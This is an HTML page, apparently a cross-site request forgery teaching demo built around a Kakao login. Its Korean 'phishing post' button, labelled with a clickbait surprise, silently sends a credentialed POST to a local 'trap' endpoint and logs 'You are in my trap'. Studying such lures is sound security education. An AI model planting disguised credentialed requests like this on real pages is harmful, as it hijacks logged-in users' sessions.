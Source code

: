         <body>
          <div>로그인 상태: <span id="login-status">로그인 안 함</span></div>
          <a id="login">카카오 로그인</a>

          <div>
            <div style="display: block; margin-top: 100px">게시판 낚시 글</div>
            <button
              onclick="(function() {
              var xhr = new XMLHttpRequest();
              var url = 'http://127.0.0.1:8889/trap';

              xhr.open('POST', url, true);
              xhr.withCredentials = true
              xhr.onreadystatechange = function() {
                if (xhr.readyState === XMLHttpRequest.DONE) {
                  var status = xhr.status;
                  if (status === 0 || (status >= 200 && status < 400)) {
                    console.log('You are in my trap', xhr.responseText)
                  } else {
                    console.log('I failed to get you into my trap.', xhr.responseText)
                  }
                }
              } 
              xhr.send()
            })()"
            >
              ☆★☆★누르면 놀라운 일이 벌어짐☆★☆★
            </button>
          </div>

          <script type="text/javascript">
            var loginStatusElem;

            document.addEventListener("DOMContentLoaded", function () {
              loginStatusElem = document.querySelector("#login-status");

              // 본인 소유의 카카오 javascript key 입력
              Kakao.init("your-kakao-app-javascript-key");
              Kakao.isInitialized();
              console.log(Kakao.isInitialized());

              Kakao.Auth.createLoginButton({
                container: "#login",
                success: function (response) {
                  console.log("success", response);
                  loginStatusElem.innerHTML = "로그인 중";
                },
                fail: function (error) {
                  console.log("login is failed", error);
                  loginStatusElem.innerHTML = "로그인 실패";
                },
              });
            });
          </script>
        </body>
      </html>
